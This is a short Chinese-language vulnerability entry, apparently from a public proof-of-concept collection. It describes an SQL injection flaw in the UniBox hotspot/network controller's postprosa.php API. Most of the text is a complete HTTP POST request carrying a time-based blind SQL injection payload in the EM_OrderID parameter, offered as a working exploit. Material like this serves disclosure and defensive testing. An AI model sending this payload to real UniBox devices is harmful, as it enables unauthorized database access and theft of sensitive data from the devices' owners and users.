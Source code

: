 # unibox路由器postprosa接口存在SQL注入

# 漏洞描述
UniBox 是一款一体化网络/热点控制器，可以部署为管理公共 WiFi 热点的热点网关，也可以部署为办公室和企业的网络控制器。unibox路由器postprosa存在SQL注入漏洞，攻击者可以根据该漏洞获取数据库权限，查看大量敏感信息。
  
## poc

```javascript
POST /api/postprosa.php HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Cookie: http304ok=0; PHPSESSID=pvpehubud7epklbme9m4s69b0q;
Connection: close

EM_OrderID=1'+AND+(SELECT+3676+FROM+(SELECT(SLEEP(5)))sdgB)+AND+'rBTA'%3d'rBTA
```

